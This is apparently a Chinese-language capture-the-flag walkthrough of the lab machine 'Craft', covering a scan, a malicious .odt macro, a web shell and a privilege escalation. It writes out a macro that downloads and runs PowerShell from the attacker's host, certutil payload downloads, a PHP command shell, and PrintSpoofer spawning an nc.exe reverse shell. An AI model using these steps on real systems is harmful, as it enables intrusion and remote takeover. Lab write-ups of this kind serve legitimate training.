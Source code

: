 ###### tags: `Hack the box` `HTB` `Intermediate` `Windows`

# Craft
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.218.169 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.176.169:80

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft
```

他需要上傳`.odt`檔，先安裝`libreoffice`
> 參考
https://0xdf.gitlab.io/2020/02/01/htb-re.html?source=post_page-----c92de878e004--------------------------------
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo apt-get install libreoffice 

┌──(kali㉿kali)-[~/pgplay]
└─$ libreoffice
```

選`Writer Document -> Tools -> Macros -> Organize Macros -> Basic -> macro from最下面的文件 -> New -> 取名evil`，參考他的指令
```
Sub Main

    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://192.168.45.184/oneliner.ps1')""")
    
End Sub
```

儲存之後，開啟`Tools -> Customize -> Open Document -> Macro -> 選剛剛的evil`

![Craft_1.png](picture/Craft_1.png)

存檔退出，開啟nc，上傳.odt檔等回彈，可在`C:\Users\thecybergeek\Desktop`得到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

PS C:\Users\thecybergeek\Desktop> type local.txt
a5bcba022f6a299797c980ddb6de283d
```

在`C:\xampp\htdocs`路徑可看到php的檔案，可以試試看上傳php的reverseshell，發現不行，感覺要跟上面一樣的方式進行(ps1檔)，先上傳簡單的shell，再上傳`oneliner.ps1`，再以cmd執行
```
PS C:\xampp\htdocs> certutil.exe -urlcache -f http://192.168.45.184/s.php s.php

http://192.168.176.169/s.php?cmd=whoami
craft\apache

192.168.176.169/s.php?cmd=certutil.exe -urlcache -f http://192.168.45.184/oneliner.ps1 oneliner.ps1

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002

192.168.176.169/s.php?cmd=cmd /c powershell -c C:/xampp/htdocs/oneliner.ps1
```

確認反彈查看`whoami /priv`可使用`printspoofer`
```
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9003

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.184/PrintSpoofer64.exe PrintSpoofer.exe

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.184/nc.exe nc.exe

PS C:\Users\Public\Documents> ./PrintSpoofer.exe -i -c "C:\Users\Public\Documents\nc.exe 192.168.45.184 9003 -e cmd"
```

等反彈可在`C:\Users\Administrator\Desktop`得proof.txt
```
C:\Users\Administrator\Desktop>type proof.txt
724027d57a6610494dcb82d9880c1705
```